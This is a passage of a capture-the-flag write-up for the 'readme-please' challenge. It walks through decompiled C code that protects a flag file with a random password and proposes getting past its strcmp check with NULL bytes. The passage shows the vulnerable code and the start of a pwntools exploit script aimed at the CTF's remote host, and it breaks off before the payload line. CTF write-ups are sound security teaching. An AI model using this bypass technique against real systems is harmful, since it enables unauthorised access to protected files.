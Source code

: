 * Pretty long huh?, but the code is straightforward:
  * First, the code will generate a new password to protect the `files/flag.txt` file that we inputed. The password os randomly generated from `/dev/urandom` file and will be store in `local_98` array with only **112 Bytes**.
  * We've to input the correct path of a target file that we want to read. There are only 3 files that we can read from the remote machine, including `flag.txt`, `default.txt`, and the `note-1.txt` (I aware you not to read this file :v).
  * If we type: `files/flag.txt` , it means that we've to provide the password!. Otherwise, all files can be read without have to provide a password.
  * **Tips**: Don't get too confused in the password transformation from `/dev/urandom` in the `generate_password`function. _Better leave it_ haha..
* Notice that in the `main`function is comparing a string of `local_98` (**generated password**) with a `local_108` (**user input password**).

{% code title="main.c" overflow="wrap" lineNumbers="true" %}
```csharp
  // snipped code.
    if (__stream == (FILE *)0x0) {
      puts("Please don\'t try anything funny!");
      fflush(stdout);
    }
    else {
      iVar1 = strcmp(pcVar2,"flag.txt");
      if (iVar1 == 0) {
        printf("Enter password: ");
        fflush(stdout);
        __isoc99_scanf(&DAT_00102088,local_108);
        iVar1 = strcmp(local_108,local_98); // vuln is happen here.
        if (iVar1 != 0) {
          puts("Incorrect password!");
          fflush(stdout);
          goto LAB_001015f2;
        }
      }
  // snipped code.
```
{% endcode %}

* How we can bypass the condition? Since it was using the `strcmp`function, so we can send some `\x00`(**NULL byte**) characters in the input password prompt.
* But, how long the `\x00`characters that we need? It's only **`112`**(**0x70**) **Bytes** until our input is reach the max of the array length.
* So, here's my exploit script.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3

from pwn import *
import itertools

context.binary = elf = ELF("./main", checksec=1)
context.log_level = "DEBUG"

is_remote = True

if is_remote:
    io = remote("readme-please.ctf.pearlctf.in", 30039)
else:
    io = elf.process()

# Send first request to read the flag.txt file.
io.sendlineafter(b"Enter the file name: ", b"files/flag.txt")

# Abuse the string comparison with \x00 characters.
```